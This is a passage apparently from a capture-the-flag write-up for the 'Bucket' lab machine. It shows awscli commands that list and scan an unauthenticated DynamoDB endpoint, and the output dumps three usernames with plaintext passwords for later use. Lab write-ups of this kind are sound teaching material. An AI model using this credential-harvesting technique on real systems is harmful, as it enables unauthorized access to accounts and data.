 Reading about `awscli` for DynamoDB, ran some simple queries to list tables and their existing entries, as below, where I was able to get some username and passwords that could be useful later.

```bash
$ aws dynamodb list-tables \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb \
    --output json
{
  "TableNames": [
    "users"
  ]
}

$ aws dynamodb scan \
    --table-name users \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb \
    --output json
{
  "Items": [
    {
      "password": {
        "S": "Management@#1@#"
      },
      "username": {
        "S": "Mgmt"
      }
    },
    {
      "password": {
        "S": "Welcome123!"
      },
      "username": {
        "S": "Cloudadm"
      }
    },
    {
      "password": {
        "S": "n2vM-<_K_Q:.Aa2"
      },
      "username": {
        "S": "Sysadm"
      }
    }
  ],
  "Count": 3,
  "ScannedCount": 3,
  "ConsumedCapacity": null
}
```
